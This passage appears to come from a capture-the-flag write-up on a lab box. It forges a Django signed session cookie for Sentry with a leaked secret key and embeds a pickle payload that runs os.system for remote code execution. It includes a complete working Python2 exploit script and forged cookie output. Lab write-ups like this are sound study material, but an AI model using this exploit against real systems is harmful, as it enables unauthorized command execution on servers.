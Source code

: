 ```
newContent['testcookie'] = PickleRce()

print django.core.signing.dumps(newContent,key=SECRET_KEY,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies',compress=True)

```

I started by trying to convert this to python3 by replacing `cPickle` with `pickle` and fixing the print. It worked, but the cookie didn’t work. Because serialization is different between the two, I dropped to Python2 (it was a bit of a pain to get `pip2` to install `django`, a solution is in a comment on [this stack overflow post](https://stackoverflow.com/questions/64187581/e-package-python-pip-has-no-installation-candidate)).

In the Sentry panel from Firefox, I’ll look into the dev tools and grab the `sentrysid` cookie, and add it to the `cookie` variable in the script. I’ll also add the key. Running this prints a new cookie:

```

oxdf@parrot$ python2 django-rce.py 'sleep 30'
Forged cookie:
.eJxrYKotZNQI5UxMLsksS80vSo9gY2BgKE7NKymqDGUpLk3Jj-ABChQEFyZaljmblJv7-kRwAQVKUotLkvPzszNTkwvyizMruIori0tSc7kKmUI5inNSUwsUjA0KmVuDCllCeeMTS0sy4kuLU4viM1O8WUOFkASSEpOzU_NSQpUgVuqVlmTmFOuB5PVccxMzcxyBLCeImlI9AMvDOmg:1m47Ab:qtESKz_ys02L-8eRSb5mxPZQFgA

```

Replacing the `sentrysid` cookie with the output and refreshing, the page hangs for 30 seconds, and then returns an error. That’s RCE.

I upgraded the script a bit to take a command from the command line and to submit the cookie for me to save copy and pasting:

```

#!/usr/bin/python2
import django.core.signing, django.contrib.sessions.serializers
from django.http import HttpResponse
import cPickle
import os
import requests
import sys

cmd = sys.argv[1]

SECRET_KEY='c7f3a64aa184b7cbb1a7cbe9cd544913'
#Initial cookie I had on sentry when trying to reset a password
cookie=".eJxrYKotZNQI5UxMLsksS80vSo9gY2BgKE7NKymqDGUpLk3Jj-ABChQEFyZaljmblJv7-hQyRXABhUpSi0uS8_OzM1PBWsrzi7JTU0KF4hNLSzLiS4tTi-KTEpOzU_NSQpUgxumVlmTmFOuB5PVccxMzcxyBLCeoGl4kfZkp3qylegCrOjNK:1m45xH:Zcs2GcAl2Knls_STRUkB22PKJlg"
newContent =  django.core.signing.loads(cookie,key=SECRET_KEY,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies')                              
class PickleRce(object):
    def __reduce__(self):
        return (os.system,(cmd,))
newContent['testcookie'] = PickleRce()

cookie = django.core.signing.dumps(newContent,key=SECRET_KEY,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies',compress=True)                 
print("Forged cookie:\n" + cookie)

requests.get("http://developer-sentry.developer.htb/sentry/", cookies={"sentrysid": cookie})   

```
